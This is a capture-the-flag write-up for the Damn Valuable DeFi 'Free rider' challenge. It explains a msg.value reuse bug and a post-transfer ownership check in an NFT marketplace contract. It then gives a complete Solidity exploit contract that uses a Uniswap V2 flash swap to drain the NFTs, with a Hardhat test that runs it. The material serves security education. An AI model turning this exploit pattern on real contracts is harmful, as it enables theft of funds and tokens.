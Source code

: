 # Challenge #10 - Free rider
 A new marketplace of Damn Valuable NFTs has been released! There's been an initial mint of 6 NFTs, which are available for sale in the marketplace. Each one at 15 ETH.

 A buyer has shared with you a secret alpha: the marketplace is vulnerable and all tokens can be taken. Yet the buyer doesn't know how to do it. So it's offering a payout of 45 ETH for whoever is willing to take the NFTs out and send them their way.

 You want to build some rep with this buyer, so you've agreed with the plan.

 Sadly you only have 0.5 ETH in balance. If only there was a place where you could get free ETH, at least for an instant.  

## Vulnerability
Looking at the FreeRiderNFTMarketplace.sol contract we can see there's a logical error in the buyOne().
There are 2 problems:    
1. Bad use of msg.value without updating it after the loop, that gives us the ability to get unlimited NFTs 
for the price of 1. (line 72)
2. Logical error on checking the ownerOf the NFT after transfering the token, as 
when the contract transfers the token it changes the ownership instantly from the seller to buyer.  
This is going to allow an attacker to extract funds from the contract. (line 80)

We start with 0.5 ether and in order to exploit the contract we need 15 eth so we need 
to find a way to get that money. That way is done using flash Swaps from uniswap v2. This will 
allow us to get a loan with the amount of money we need to get the NFTs as long as we pay it back. 

## Exploit 
In order to do this we need to craft our own exploitable contract.  

```sol
pragma solidity ^0.8.0;

import "@uniswap/v2-core/contracts/interfaces/IUniswapV2Pair.sol";
import "@uniswap/v2-periphery/contracts/interfaces/IUniswapV2Router02.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";

interface IDamnValuableNFT {
	function safeTransferFrom(address, address, uint) external;
}

interface IFreeRiderNFTMarketplace {
	function buyMany(uint256[] calldata tokenIds) external payable;
}

interface IWETH9 {
	function deposit() external payable;
	function withdraw(uint wad) external;
	function transferFrom(address src, address dst, uint wad) external returns (bool);
}

contract FREE_RIDER_EXPLOIT {

	address buyer;
	IUniswapV2Pair pair;
	IWETH9 weth;
	IFreeRiderNFTMarketplace marketplace;
	IUniswapV2Router02 router;
	IDamnValuableNFT nft;

    function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external {
		// Convert WETH to ETH
		weth.withdraw(amount0);
		// Init tokenIds
		uint256[] memory tokenIds = new uint256[](6);
        for (uint256 i = 0; i < 6; i++) {
            tokenIds[i] = i;
        }
		// Steal NFTs
		marketplace.buyMany{value: amount0}(tokenIds);
		// Return Uniswap loan
		uint returnAmount = amount0 + 0.1 ether;
		weth.deposit{value: returnAmount}();
		weth.transferFrom(address(this), msg.sender, returnAmount);
		// Transfer NFTs to attacker
        for (uint256 i = 0; i < 6; i++) {
			nft.safeTransferFrom(address(this), address(buyer), i);	
		}
	}

	function exec(
		address _pair,
		address _token0,
		address _token1,
		address _marketplace,
		address _router,
		address _nft,
		address _buyer
	) external {
		buyer = _buyer;
		marketplace = IFreeRiderNFTMarketplace(_marketplace);
		weth = IWETH9(_token1); 
		router = IUniswapV2Router02(_router);
		nft = IDamnValuableNFT(_nft);
		pair = IUniswapV2Pair(_pair);
		// Get Flash loan for 15 WETH
		pair.swap(
			15 ether,
			0,
			address(this),
			bytes('not empty')
		);	
	}

    // Interface required to receive NFT as a Smart Contract
    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external pure returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;
    }

    receive() external payable {}
}
```  
Finnally, we just need to execute it and and see our balance grow.   

```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
		//Deploy Exploit 
		this.exploit = await (await ethers.getContractFactory('FREE_RIDER_EXPLOIT', attacker)).deploy();
		await this.exploit.exec(
			this.uniswapPair.address,
			this.token.address,
			this.weth.address, 
			this.marketplace.address,
			this.uniswapRouter.address,
			this.nft.address,
			this.buyerContract.address
		);
    });

```

